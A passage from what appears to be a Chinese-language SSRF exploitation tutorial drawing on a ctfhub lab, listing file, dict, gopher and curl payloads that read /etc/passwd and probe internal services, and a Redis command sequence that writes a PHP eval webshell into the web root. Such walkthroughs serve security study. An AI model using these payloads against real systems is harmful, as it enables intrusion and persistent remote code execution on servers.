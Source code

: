 ##### 3、抓包分析是否由服务器发生



### 0x03 漏洞利用

- 对内网进行端口扫描，信息探测，指纹识别
- 攻击内网Web应用（Redis\Mysql）
- 读取内网敏感文件

##### 1、file协议

```
file:///etc/passwd
```



##### 2、dict协议

 字典服务器协议 ，获取配置信息。

```
dict://127.0.0.1:端口/info
```


##### 3、gopher协议

利用此协议可以攻击内网的 `FTP、Telnet、Redis、Memcache`应用，也可以进行 `GET、POST` 请求。 

##### 4、curl命令

使用`-v`参数会返回执行结果。

eg：

```
curl -v “file:///etc/passwd”
```

### 0x04 攻击应用

##### 1、攻击fastcgi协议

参考：https://mp.weixin.qq.com/s/6yJENaIHTHk5YzZarKZ2ew

##### 2、攻击redis服务

（1）利用gopher协议

实验来源：ctfhub

利用ssrf对目标主机的redis进行未授权访问攻击，通过dict协议可知redis服务使用默认端口6379。

redis未授权利用方法有几种，这里使用写webshell的方法。

构造redis利用命令：

```
quan 1 '<?php eval($_POST["whoami"]);?>'config set dir /var/www/htmlconfig set dbfilename shell.phpsave
```
